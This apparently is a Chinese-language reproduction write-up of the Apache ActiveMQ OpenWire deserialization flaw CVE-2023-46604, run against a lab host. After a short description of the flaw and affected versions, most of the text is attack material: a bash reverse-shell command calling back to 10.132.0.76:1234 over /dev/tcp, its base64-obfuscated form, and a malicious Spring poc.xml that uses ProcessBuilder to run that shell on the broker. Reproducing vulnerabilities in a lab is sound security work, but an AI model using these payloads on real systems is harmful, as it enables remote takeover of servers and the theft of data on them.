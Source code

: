   
  
  
Apache ActiveMQ OpenWire 协议反序列化命令执行漏洞（CVE-2023-46604）  
  
OpenWire协议在ActiveMQ中被用于多语言客户端与服务端通信。  
在Apache ActiveMQ 5.18.2版本及以前，OpenWire协议通信过程中存在一处反序列化漏洞，该漏洞可以允许具有网络访问权限的远程攻击者通过操作OpenWire协议中的序列化类类型，导致代理的类路径上的任何类实例化，从而执行任意命令。  
  
  
漏洞影响范围：  
5.18.2版本及以前  
  
  
漏洞复现  
  
访问靶机链接  
  
直接未授权访问后台  
  
http://10.22.250.67:8161/admin/  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5Z0kvQLriaBiaEckn6pFJH0rj7dyo7UmbBt991libajtUHfryXpCVgJm44Q/640?wx_fmt=png&from=appmsg "")  
  
  
版本为5.17.3在漏洞范围之内  
  
构造payload  
```
bash -i >& /dev/tcp/10.132.0.76/1234 0>&1

YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMzIuMC43Ni8xMjM0IDA+JjE=

{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8gMTAuMTMyLjAuNzYvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}
```  
  
  
编辑poc.xml  
  
修改xml为反弹shell命令，加入构造好的payload  
```
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
         http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb"   class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8gMTAuMTMyLjAuNzYvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}</value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZzApA7yHFAgxwjSHzIs0cxMgYhficg3q43WqKSfAnOPSVlvsqUL9Y9SA/640?wx_fmt=png&from=appmsg "")  
  